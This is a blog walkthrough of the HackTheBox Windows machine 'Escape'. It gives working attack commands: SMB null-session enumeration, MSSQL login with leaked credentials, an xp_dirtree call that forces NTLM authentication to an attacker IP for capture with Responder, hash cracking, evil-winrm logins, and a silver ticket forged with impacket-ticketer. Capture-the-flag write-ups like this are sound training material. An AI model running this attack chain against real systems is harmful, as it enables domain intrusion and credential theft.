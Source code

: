 ```yaml
---
title: Escape @ HackTheBox - Complete Walkthrough
date: 2025-04-25 13:00:00 
last_modified_at: 2025-04-25 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [hackthebox,escape machine,penetration testing,cybersecurity,walkthrough,windows,active directory]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post3/Escape.jpg
  alt: "Escape Machine - HackTheBox Windows Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Escape machine on HackTheBox. Learn Windows penetration testing techniques, privilege escalation, and Active Directory exploitation in this cybersecurity challenge."
description: "Step-by-step walkthrough of the Escape machine on HackTheBox. Master Windows penetration testing, privilege escalation techniques, and Active Directory exploitation in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, escape machine, windows, penetration testing, cybersecurity, walkthrough, privilege escalation, active directory, exploitation]
canonical_url: https://b2hu.me/posts/Escape-HTB-Walkthrough
---
```


## Table of Contents
- [Enumeration](#enumeration)
- [Foothold](#foothold)
- [Lateral Movement](#lateral-movement)

---
**Hello** This is a very simple walkthrough for the windows machine Escape (medium). In this walkthrough we'll practice AD enumeration and Exploitation, without further ado let's get into it.
## Enumeration
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
the scan showes multiple windows AD specific ports open inidicating the machine is a Domain Controller, with a domain name of sequel.htb
after adding the file to /etc/hosts i started enumerarting the services (ldap,smb,etc) and trying to collect information.
After that i found that a Null session was possible in the SMB, so l'ets see whats there :
```shell
smbclient -L //sequel.htb 
```
this command listed the possible share drives, and among them was folder called Public.
```shell
smbclient -U "" //sequel.htb/Public
```
i found a .pdf and i downloaded it using **get**.
Interestingly enough, inside the PDF file, we can find credentials to access the MSSQL instance that we noticed during our initial enumeration, and for this we'll use **impacket-msssqlclient**
```shell
impacket-mssqlclient PublicUser:GuestUserCantWrite1@sequel.htb
```
## Foothold
after gaining access i tried many techniques like enabling xp_cmdshell but sadly nothing works, and therefor i tried to force the mssql instance to authenticate to my machine to capture the NTLM hash of the service account responder. 
First let's set up responder :
```shell
sudo responder -I tun0 -v
```
Then, we ask from SQL to list files on our machine using a UNC (Universal Naming Convention) path.
```shell
EXEC MASTER.sys.xp_dirtree '\\10.10.14.7\b2hu', 1, 1
```
back to responder and it seems that he caught the ntlm hash of the user account **sql_svc**, now lets crack it using hashcat (the hash format is NetNTLMv2 and the code is 5600)
```shell
hashcat -m 5600 hash.txt /usr/share/wordlist/rockyou.txt
```
the password seems to be **REGGIE1234ronnie**.
now let's try to authenticate as the user sql_svc over WinRM. We will use evil-winrm.
```shell
evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie
```
## Lateral Movement
we accessed thee sql_svc but there's no **user.txt** file a quick look at the C:\Users folder showed a user **Ryan.Cooper** which indicates that this user might be the target user, while searching for any lead to move to the ryan user i found a log file inside the sqlserver folder, it appears that this user failed to login to the sql instance using this password : **"NuclearMosquito3"**, and this password would most likely be his account's password, let's test it :
```shell
evil-winrm -i sequel.htb -u Ryan.Cooper -p NuclearMosquito3
```
it worked, and now we can retrieve the **user.txt** falg
### PrivEsc
in this step i'll try to forge a ticket for the admin user to access the mssql database and execute xp_cmdshell, this attack verctor is known as **silver ticket**, since we've got the creds for the sql_svc account lets try to get th sid of the domin
```shell
PS C:\Users\Ryan.Cooper\Documents> Get-LocalUser -Name $env:USERNAME | Select sid

SID
---
S-1-5-21-4078382237-1492182817-2568127209-1105
```
the domain SID is all but the last part, next we need the NTLM hash of the svc_sql account, using this <a href=https://codebeautify.org/ntlm-hash-generator>online tool</a> to create it :
```text
1443EC19DA4DAC4FFC953BCA1B57B4CF
```
The spn parameter is needed to produce a valid ticket but we can place anything we want since it's not set
to begin with.
```text
b2hu/DC.SEQUEL.HTB
```
Now, we can craft a ticket for the MSSQL service.
```shell
impacket-ticketer -nthash 1443EC19DA4DAC4FFC953BCA1B57B4CF
-domain-sid S-1-5-21-
4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn
nonexistent/DC.SEQUEL.HTB Administrator
```
Now, we export our ticket and authenticate to the service using Kerberos authentication.
```shell
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k dc.sequel.htb
```
Now, we can use the following queries to read the user.txt as well as the root.txt 
```shell
SELECT * FROM OPENROWSET(BULK N'C:\users\ryan.cooper\desktop\user.txt', SINGLE_CLOB) AS
Contents
SELECT * FROM OPENROWSET(BULK N'C:\users\administrator\desktop\root.txt', SINGLE_CLOB)
AS Contents
```